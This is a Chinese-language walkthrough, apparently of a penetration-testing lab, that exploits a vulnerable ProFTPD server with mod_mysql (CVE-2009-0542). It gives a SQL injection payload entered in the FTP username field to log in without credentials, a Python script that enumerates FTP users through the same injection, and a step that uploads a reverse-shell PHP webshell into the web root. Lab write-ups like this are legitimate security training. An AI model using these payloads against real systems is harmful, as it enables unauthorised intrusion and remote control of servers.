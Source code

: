 尝试用`bob`用户登录，失败。但是获得以下信息：

```
目标主机为 Unix
FTP 服务器程序为存在漏洞的 ProFTPD，且使用了 mod_mysql 模块
```

上面第二点信息作者说是通过探针获得的。我不是太懂，之前使用`bob`尝试登录过程中的交互信息如下：

```
220 Welcome to the CorpCom FTP Server.
...
530 Login incorrect
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.
```

我猜测最后两句话可能是`ProFTPD`特有的吧。

接下来开始尝试 SQL 注入：

```
# 在输入用户名时输入
%') and 1=2 union select 1,1,uid,gid,homedir,shell from ftpuser; --
# 在输入密码时直接回车
```

成功登入。这说明漏洞存在。

注：经过搜索，我发现这里存在一个漏洞`CVE-2009-0542`，详情见附录一。Youtube上有一个类似的[演示视频](https://www.youtube.com/watch?v=s5EtYRiMf_o)，但是在那个视频中交互信息里明确出现了`ProFTPD 1.3.1`字样。

下一步，要寻找到一个有价值的 FTP 用户，作者希望能够利用 FTP 上传一个`WebShell`。

- Bruteforce

利用以下脚本去穷举有价值的 FTP 用户：

```python
from ftplib import FTP
print "Attempting User Directory Discover Via FTP"
for i in range(0, 6):
    username = "%') and 1=2 union select 1,1,uid,gid,homedir,shell from ftpuser LIMIT " + str(i) + ",1; -- "
    password = str("1")
    ftp = FTP('www.offseclabs.com')
    ftp.login(username, password)
    print "Logged in as user" + str(i) + ",1"
    ftp.retrlines('LIST')
    ftp.close()
```

穷举到第六个用户时发现它的`homedir`映射到了 HTTP 应用的`root目录`（管理员是为了方便吗）。

- 获取 Shell

利用上面获得的 FTP 用户连接到服务器，带反弹 Shell 的 Webshell：

```
put rs.php
```
